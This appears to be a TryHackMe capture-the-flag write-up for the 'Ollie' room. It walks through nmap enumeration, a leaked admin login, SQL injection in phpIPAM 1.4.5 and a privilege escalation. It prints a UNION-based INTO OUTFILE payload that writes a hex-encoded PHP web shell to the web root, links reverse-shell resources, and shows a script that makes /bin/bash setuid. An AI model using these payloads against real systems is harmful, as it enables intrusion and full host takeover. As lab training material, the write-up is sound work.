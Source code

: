 ```yaml
---
title: "Ollie"
date: 2025-03-26
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```


## Enumeration

Lets start with the simple nmap scan and rustscan.
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 11:10 +0545
Nmap scan report for 10.10.17.91 (10.10.17.91)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b7:1b:a8:f8:8c:8a:4a:53:55:c0:2e:89:01:f2:56:69 (RSA)
|   256 4e:27:43:b6:f4:54:f9:18:d0:38:da:cd:76:9b:85:48 (ECDSA)
|_  256 14:82:ca:bb:04:e5:01:83:9c:d6:54:e9:d1:fa:c4:82 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/ /immaolllieeboyyy
| http-title: Ollie :: login
|_Requested resource was http://10.10.17.91/index.php?page=login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.16 seconds
```

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1337/tcp open  waste   syn-ack
```

Lets enumerate the port 80.
Hmm we spawned on a login page.
![](Pasted%20image%2020250326111427.png)

Lets enumerate further.
![](Pasted%20image%2020250326111557.png)

We might get local file inclusion vulnerability here.
Lets check.
Hmm not working.

Doing directory busting gave us many things.
![](Pasted%20image%2020250326111903.png)
![](Pasted%20image%2020250326111915.png)


Found many thing but nothing seems interesting.
![](Pasted%20image%2020250326112416.png)

Hmm lets also see that port 1337.
![](Pasted%20image%2020250326112455.png)

Interesting.
Lets move forward.
And we got the creds.
![[Pasted image 20250326112621.png]]
Lets try to login on login page.
```
Username: admin
Password: OllieUnixMontgomery!
```

![](Pasted%20image%2020250326112807.png)

## Exploit

Hmmm.
After searching for possible exploits of `[phpIPAM IP address management [v1.4.5]`,we can find this.
![](Pasted%20image%2020250326113019.png)

Hmm it was using a sql injection to upload php shell.
Lets try sql injection to test if it is possible.
![](Pasted%20image%2020250326114401.png)

We can find this in a edit BGP subnet mapping thing.
And we found exact number of columns.
![](Pasted%20image%2020250326114715.png)
![](Pasted%20image%2020250326114736.png)

Hmmm lets try to use that exploit we found on exploitdb.
Or we can do this.
```SQL

" Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/evil.php' -- -

```

So what happening here is we are using UNION attack and uploaded hexed php web shell by doing `INTO OUTFILE`  into `/var/www/html/yourfile.php` cause `/var/www/html/` is the root directory of web page.
![](Pasted%20image%2020250326120012.png)
![](Pasted%20image%2020250326115750.png)

And we can now use this to execute commands.
![](Pasted%20image%2020250326115844.png)

Now we can get reverse shell by [revshell.com](https://www.revshells.com/)
![](Pasted%20image%2020250326120130.png)

And we can also get full tty shell from here.
[full tty shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/full-ttys.html)

![](Pasted%20image%2020250326120530.png)

## Privelege Escalation

We can get a some creds here.
![](Pasted%20image%2020250326121029.png)

But this was not working for user ollie.
After trying and enumerating different thing,there is the password reuse and we can use same password that we got before for user ollie.
![](Pasted%20image%2020250326121429.png)

Now lets try to became root.
I tried different exploits and tried to find different thing but nothing worked.
Linpeas is also not working.[linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
Lets also try pspy.[pspy](https://github.com/DominicBreuker/pspy)
After seeing and trying different things,we can see this.
![](Pasted%20image%2020250326124201.png)

Lets see what is it.
Its nothing.
But we can use it to execute command as root.
```
ollie@hackerdog:/tmp$ cat /usr/bin/feedme
#!/bin/bash

chmod 4777 /bin/bash
# This is weird?
ollie@hackerdog:/tmp$

```

Here we are changing the permission of `/bin/bash` ,giving it with setuid.

![](Pasted%20image%2020250326124516.png)

And Now we are root.
![](Pasted%20image%2020250326124647.png)

## Done

And done.
![](Pasted%20image%2020250326124744.png)

Learned lots of things again.
I hope you are okay,take care :).
